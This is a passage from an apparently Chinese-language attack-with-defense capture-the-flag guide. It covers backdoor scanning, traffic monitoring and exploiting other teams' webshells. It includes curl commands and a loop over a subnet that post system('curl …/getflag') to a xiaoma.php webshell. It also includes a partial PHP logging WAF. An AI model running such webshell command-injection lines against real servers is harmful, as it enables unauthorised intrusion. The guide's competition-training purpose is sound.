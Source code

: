    * 工具进入导入

   * 网站后台导入

## 四、查杀后门

拿到源码之后 `D盾` 查杀后门

[![Bismp8.md.png](https://s1.ax1x.com/2020/10/22/Bismp8.md.png)](https://imgchr.com/i/Bismp8)

直接先拿一眼就能看出得后门直接打别人拿分，（如果是队伍，就分配任务，一个人负责改密备份工作，一个人直接拿到源码后扫后门打别人）

```bash
curl "http://192.168.2.136/xiaoma.php" -d "ma=system('curl http://192.168.2.1/getflag');"
# 192.168.2.1/getflag 是使用对方 curl 目标地址  得分的网址。
```

加循环：

```bash
for i in `seq 60 70`; do echo 192.168.2.$i:;curl -s -m 1 --connect-time 3 "http://192.168.2.$i/xiaoma.php" -d "test=system('curl http://192.168.2.1/getflag');" 2>/dev/null; done;
```



`seay` 自动审计代码

[![BiyP3T.md.png](https://s1.ax1x.com/2020/10/22/BiyP3T.md.png)](https://imgchr.com/i/BiyP3T)

利用 `acunetix` 扫描漏洞

ps:  注意及时删掉或者注释掉自己源码的后门，然后上传覆盖。防止别人打。

## 五、监控

可以先放个通防 waf 脚本，但是容易被 `check down` ....

#### 1. 流量监控

但可以放一个监控流量的脚本，在php 文件前加个

```php
require_once('waf.php');
```

监控脚本：

```php
<?php

    error_reporting(0);

    define('LOG_FILENAME','log.txt');

    function waf()

    {

        if (!function_exists('getallheaders')) {

            function getallheaders() {

                foreach ($_SERVER as $name => $value) {

                    if (substr($name, 0, 5) == 'HTTP_')

                        $headers[str_replace(' ', '-', ucwords(strtolower(str_replace('_', ' ', substr($name, 5)))))] = $value;

                }

```